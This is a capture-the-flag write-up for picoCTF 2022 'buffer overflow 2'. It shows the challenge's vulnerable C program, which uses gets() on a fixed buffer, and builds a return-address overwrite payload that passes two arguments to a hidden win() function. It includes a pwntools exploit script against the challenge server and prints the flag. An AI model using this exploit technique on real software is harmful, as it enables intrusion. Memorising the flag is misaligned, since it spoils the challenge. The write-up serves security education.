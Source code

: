 # picoCTF 2022 buffer overflow 2 (Binary Exploitation 300 points)
The challenge is the following,

![Figure 1](img/challenge.png) 

We are also given the executable file [vuln](./files/vuln) and its source code [vuln.c](./files/vuln.c),

```
1.  #include <stdio.h>
2.  #include <stdlib.h>
3.  #include <string.h>
4.  #include <unistd.h>
5.  #include <sys/types.h>
6. 
7.  #define BUFSIZE 100
8.  #define FLAGSIZE 64
9. 
10. void win(unsigned int arg1, unsigned int arg2) {
11.   char buf[FLAGSIZE];
12.   FILE *f = fopen("flag.txt","r");
13.   if (f == NULL) {
14.     printf("%s %s", "Please create 'flag.txt' in this directory with your",
15.                     "own debugging flag.\n");
16.     exit(0);
17.   }
18. 
19.   fgets(buf,FLAGSIZE,f);
20.   if (arg1 != 0xCAFEF00D)
21.     return;
22.   if (arg2 != 0xF00DF00D)
23.     return;
24.   printf(buf);
25. }
26. 
27. void vuln(){
28.   char buf[BUFSIZE];
29.   gets(buf);
30.   puts(buf);
31. }
32. 
33. int main(int argc, char **argv){
34. 
35.   setvbuf(stdout, NULL, _IONBF, 0);
36.   
37.   gid_t gid = getegid();
38.   setresgid(gid, gid, gid);
39. 
40.   puts("Please enter your string: ");
41.   vuln();
42.   return 0;
43. }
```

I saw that the function `win()` is the function that contains the flag reader, so this is the function I want to jump to. I used `pwndbg` and used `info functions` like in [buffer overflow 1](https://github.com/LambdaMamba/CTFwriteups/tree/main/picoCTF_2022/Binary_Exploitation/buffer_overflow_1).

![Figure 1](img/gdb.png) 

I saw that `win()` was in `0x08049296`, so this is the return address that I want to jump to. However, unlike [buffer overflow 1](https://github.com/LambdaMamba/CTFwriteups/tree/main/picoCTF_2022/Binary_Exploitation/buffer_overflow_1), I had to also pass arguments `0xCAFEF00D` and `0xF00DF00D` to the `win()` function, as lines 20 and 22 checks for these.

Here, I saw that the buffer in line 28 can be overflowed with 112 bytes to rewrite the return address, so I prepared 112 `A`,

`a = 'A' * 112`

And I want to jump to the address `0x08049296` so I swapped the endian,

`a += "\x96\x92\x04\x08"
`

I needed the input parameters to `win()` to be `0xCAFEF00D` and `0xF00DF00D`, so I first prepared a padding of 4 bytes,

`a += "CCCC"`

Then I prepared `0xCAFEF00D` by swapping the endian,

`a += "\x0d\xf0\xfe\xca"`

Then I prepared `0xF00DF00D` by swapping the endian,

`a += "\x0d\xf0\x0d\xf0"`


I put everything together into the following [exploit2.py](./exploit2.py),

```
from pwn import *

#elf = context.binary = ELF("./vuln")
context.arch = 'amd64'
gs = '''
continue
'''

def start(server=True):
        if(server):
                return remote('saturn.picoctf.net', 52578)
        else:

                return process(['./vuln'])

io = start()

#io.recvuntil(">>")
a = 'A' * 112
a += "\x96\x92\x04\x08"
a += "CCCC"
a += "\x0d\xf0\xfe\xca"
a += "\x0d\xf0\x0d\xf0"
io.sendline(a)

io.interactive()

```

I executed the script and passed the inputs to the remote server,


![Figure 1](img/flag.png) 

Therefore, the flag is,

`picoCTF{argum3nt5_4_d4yZ_eb489c7a}`
